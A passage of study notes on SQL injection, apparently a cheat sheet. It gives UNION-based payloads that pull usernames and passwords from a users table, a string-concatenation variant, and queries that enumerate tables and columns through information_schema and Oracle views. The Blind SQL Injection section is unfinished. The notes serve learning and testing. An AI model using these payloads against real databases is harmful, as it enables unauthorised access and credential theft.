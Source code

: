```sql
' UNION SELECT username, password FROM users-- 
```

### Retrieving multiple values within a single column

Use the string concatenation syntax of the database to combine the various columns into a single one

```sql
' UNION SELECT username || '~' || password FROM users-- 
```


## Examining the database

 it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.
 
 ### Querying the database type and version

 You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are in the Syntax table below.
 
 ### Listing contents of the database

  Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query information_schema.tables to list the tables in the database:

```sql
SELECT table_name FROM information_schema.tables
SELECT column_name FROM information_schema.columns WHERE table_name = '<table_name>'
```

For Oracle

```sql
--You can list tables by querying all_tables:

SELECT table_name FROM all_tables

--And you can list columns by querying all_tab_columns:

SELECT column_name FROM all_tab_columns WHERE table_name = '<table_name>' 
```

## Blind SQL Injection
#coming

